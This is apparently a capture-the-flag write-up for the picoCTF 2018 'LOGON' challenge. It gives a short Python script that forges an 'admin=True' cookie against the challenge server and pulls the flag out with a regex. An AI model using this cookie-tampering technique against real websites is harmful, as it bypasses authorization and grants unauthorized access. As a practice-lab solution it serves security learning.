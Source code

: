 
> LOGON
> The aim is to change the value of a cookie to true to receive the flag 

> the script

```python3
#!/usr/bin/python
import requests
import re
params = {'user': 'A', 'password': 'A', 'submit': 'Sign In'}
jar = {'admin': 'True', 'password': '', 'username': ''}
r = requests.get('http://2018shell1.picoctf.com:37861/flag', data=params, cookies=jar)
source = r.text
print(re.findall(r'(picoCTF\{.+\})', source)[0])
```
